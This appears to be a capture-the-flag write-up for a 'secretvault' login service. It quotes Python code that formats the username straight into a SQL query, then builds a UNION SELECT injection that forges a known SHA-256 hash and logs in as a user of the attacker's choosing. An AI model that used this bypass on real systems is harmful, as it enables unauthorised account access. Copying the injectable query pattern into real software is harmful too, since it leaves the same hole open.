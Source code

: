 > File "/home/vault/vault/secretvault.py", line 58, in login
>     connection = sqlite3.connect(os.path.join(directoryFordata, 'clients.db'))
>     pointer = connection.cursor()
>  
>     search = """SELECT id, hash, salt FROM clients
>                WHERE clientname = '{0}' LIMIT 1""".format(clientname)
>     pointer.execute(search)
>  
>     res = pointer.fetchone()
>     if not res:
>         return "No such user in the database {0}!\n".format(clientname)
>     userID, hash, salt = res

Very clear SQL injection vulnerability. Unfortunately, it looks like the server first selects a row from the table based on `clientname`, then checks the `hash` + `salt` at a later point. No problem, we can use a SQL `UNION` statement to make our own login credentials. We make an informed guess that the hashing algorithm is SHA-256. It is not clear whether the salt is appended or prepended, so let's just not have any. We can find out the SHA-256 hash of a password of our choosing easily:

    $ python -c 'from hashlib import sha256; print sha256("foobar").hexdigest()'
    c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2

The full data that we'd like to have in the table is:

| `id` | `hash` | `salt` |
| --- | --- | --- |
| "0" | "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2" | "" |

We'll get to `id` later, so we put 0 for now (but the column type is still `VARCHAR(255)`). Knowing the query the server executes, we construct the following injection:

    ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 

So after Python formats the query string, the result is:

    SELECT id, hash, salt FROM clients WHERE clientname = ''
    UNION
    SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", ""

(Everything after is ignored due to the comment marker ` -- `.)

In other words, the server is looking for clients with `clientname` equal to the empty string, and concatenates the (non-existent) results of that query with our inline data.

To login:

> Username: ' UNION SELECT "0", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 
> Password: foobar

It works, and we are greeted with the message:

    Welcome back valid user! Your digital secret is: "https://www.youtube.com/watch?v=dQw4w9WgXcQ" (Log out)

I'll let you guess what that video is. There is nothing else we can change in our login except for the `id` - it seems the server serves different "digital secrets" based on the `id` of the logged-in user. We can figure out the `id` for user `Goutham`, since the red herring comment hinted that `Goutham` knows the flag. Given that `id` is a `VARCHAR(255)`, the search space could be quite large, and we could use a character-by-character binary search. Luckily, it is a single digit.
